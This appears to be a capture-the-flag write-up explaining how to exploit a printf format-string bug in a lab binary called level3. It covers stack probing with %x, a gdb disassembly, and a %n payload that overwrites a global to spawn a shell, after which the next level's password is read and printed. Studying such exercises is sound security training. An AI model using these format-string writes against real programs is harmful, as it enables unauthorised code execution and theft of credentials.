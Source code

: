 We have a `level3` binary that contains 2 functions : `main` and `v`.

`v` uses `fgets` function, which is a secure version of `gets`, so we won't be able to exploit the binary with a bufferoverflow.

Instead, we are going to exploit printf's format strings vulnerabilities.

A reminder of strings format with printf : 

![Strings formats](/level3/Capture%20d%E2%80%99%C3%A9cran%20de%202022-04-29%2017-30-23.png)

We will use the `%x` string format. It will read data from the stack. For each `%x`, `printf()` will fetch a number from the stack, treat this number as an address, and print out the memory contents pointed by this address as a string.

We try to write "AAAA" on the stack and see where it writes it :

> ./level3
>AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
>AAAA00000200.b7fd1ac0.b7ff37d0.41414141.78383025.3830252e.30252e78.252e7838.2e783830

We can see that "AAAA" string is written in the **4th argument**. 

Next, we need to open `gdb` and see where to write something.

> (gdb) disass v
```
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

We can see tha the program expects the register `eax` to be equal to `0x40` in order to enter an if condition and open a shell.

Right before that, a value is put in `eax`. This is where we need to write in order to enter the "if" condition : 

`    0x080484da <+54>:	mov    0x804988c,%eax`

We got our target address to write `0x804988c`. In little endian : `\x8c\x98\x04\x08`. The length of the address if 4 bytes.

Because in decimal 0x40 = 64, we need to write 60 + the 4 bytes long of the address. We have to padd the 60 bytes left by writing `%60`.

We add a `| cat` because otherwise the terminal would immediatly close.

> (python -c 'print "\x8c\x98\x04\x08%60x%4$n"' ; cat -) | ./level3 

>Wait what?!   
>cat /home/user/level4/.pass
>b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa


# Sources : 

printf format string exploit : 
- https://axcheron.github.io/exploit-101-format-strings/